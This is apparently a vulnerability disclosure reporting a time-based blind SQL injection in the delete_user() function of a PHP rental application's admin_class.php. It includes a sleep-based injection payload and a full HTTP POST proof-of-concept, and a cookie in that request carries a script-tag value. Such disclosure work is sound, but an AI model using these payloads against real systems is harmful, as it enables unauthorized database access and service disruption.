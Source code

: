 #### A sql injection vulnerability exists in the delete_user() function in the file rental/admin_class.php.

**Code Analysis**

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910162357881.png)

Seeing that the variable `$id` was directly concatenated without any filtering.We can construct the SQL statement directly.

```sql
2 or (select(123)from(select(sleep(6)))x)#
```

**Vulnerability reproduction**

Seeing success delayed by 6 seconds.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910162523281.png)

poc:

```http
POST /ajax.php?action=delete_user HTTP/1.1
Host: localhost:1110
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 45
Origin: http://localhost:1110
Connection: keep-alive
Referer: http://localhost:1110/index.php?page=users
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; XDEBUG_SESSION=13926; PHPSESSID=3hl2t1rg411rdcvu3pagf1cg5n
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=2 or (select(123)from(select(sleep(6)))x)#a
```
